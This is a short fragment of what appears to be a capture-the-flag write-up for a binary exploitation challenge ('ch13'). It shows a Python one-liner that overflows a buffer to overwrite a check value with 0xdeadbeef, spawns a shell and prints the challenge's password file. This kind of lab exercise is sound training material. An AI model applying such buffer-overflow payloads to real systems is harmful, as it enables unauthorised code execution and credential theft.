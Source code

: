 ```
app-systeme-ch13@challenge02:~$ (python -c 'print "/bin/sh #" + "A" * 31 + "\xef\xbe\xad\xde"'; cat) | ./ch13 

[buf]: /bin/sh #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
1w4ntm0r3pr0np1s
qa^CShell closed! Bye.

```
-------------------------------------------------------------------------------

#### Text
